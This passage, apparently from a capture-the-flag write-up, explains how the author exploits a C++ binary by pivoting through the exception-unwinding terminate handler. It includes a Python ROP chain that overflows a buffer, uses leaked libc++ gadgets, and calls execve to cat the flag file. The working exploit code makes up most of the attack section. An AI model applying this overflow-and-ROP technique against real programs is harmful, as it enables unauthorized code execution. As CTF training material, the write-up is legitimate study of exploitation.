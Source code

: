 ```cpp
void __terminate (std::terminate_handler handler)
    throw ()
    {
    __try
    {
        handler (); æ
        std::abort ();
    }
    __catch(...)
    { std::abort (); }
}
```


I tried it, but the alignment and parameters kept messing me up. I didn't bother looking for another golden gadget, so if you find another way, please DM me.  

Well, when jumping back to the unwind gadget, we have no functions that execute commands, and we don't have a libc leak, but we do have a libcpp leak, which, for the entire library, contains only one syscall and some gadgets. Neat.  

Constructing our gadget will be a pain in the ass because somehow stdin breaks after unwinding. So, the only solution I found is literally calling `execve` and loading `argv` with the `cat` command to cat the flag.  

```py
    offset = 2120
    unwind_gadget = elf.address + 17719
    syscall = 0x0000000000197bb4 + libcpp.address
    pop_rdx = 0x00000000001d68bb + libcpp.address
    pop_rdi = 0x00000000000f3d0d + libcpp.address
    pop_rsi = 0x00000000000e4506 + libcpp.address
    pop_rax = 0x00000000000dc7b0 + libcpp.address
    space = elf.address + 54528
    cmd = b"/bin/cat\x00cat\x00/app/flag.txt\x00"
    pay = flat (
            space + len("/bin/cat\x00") + (8 * 3),
            space + len("/bin/cat\x00cat\x00")+ (8 * 3),
            0,
            cmd,
            cyclic(offset - (len(cmd) + (8 * 3))),
            unwind_gadget,
            cyclic(88),
            pop_rdi, 
            space + (8*3) ,
            pop_rsi,
            space,
            pop_rax,
            59,
            pop_rdx,
            0,
            syscall

            )
    data(pay)
```
